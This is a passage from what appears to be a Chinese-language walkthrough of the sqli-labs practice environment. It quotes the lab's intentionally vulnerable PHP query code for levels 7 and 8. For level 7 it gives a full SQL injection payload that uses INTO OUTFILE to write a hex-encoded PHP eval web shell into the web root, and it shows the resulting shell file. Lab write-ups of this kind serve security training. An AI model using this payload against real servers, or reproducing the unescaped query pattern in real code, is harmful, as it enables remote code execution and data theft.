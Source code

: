 第二个字母是`e`

......

## less-7 into outfile

```php+HTML
$sql="SELECT * FROM users WHERE id=(('$id')) LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

        if($row)
        {
        echo '<font color= "#FFFF00">';
        echo 'You are in.... Use outfile......';
        echo "<br>";
        echo "</font>";
        }
        else 
        {
        echo '<font color= "#FFFF00">';
        echo 'You have an error in your SQL syntax';
        //print_r(mysql_error());
        echo "</font>";  
        }
}
        else { echo "Please input the ID as parameter with numeric value";}
```

闭合`'))`

提示用outfile，直接写shell

```
1')) union select 1,0x3c3f706870206576616c28245f504f53545b636d645d293b3f3e,3 into outfile "/var/www/html/Less-7/1.php"-- a
```

用`<?php eval($_POST[cmd]);?>`的十六进制写

注意给目录写权限，以mysql身份写的文件

```shell
-rw-rw-rw- 1 mysql    mysql      43 Dec  2 16:04 shell.php
```

## less-8 布尔盲注

单引号盲注

```php+HTML
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

        if($row)
        {
        echo '<font size="5" color="#FFFF00">';
        echo 'You are in...........';
        echo "<br>";
        echo "</font>";
        }
        else 
        {

        echo '<font size="5" color="#FFFF00">';
        //echo 'You are in...........';
        //print_r(mysql_error());
```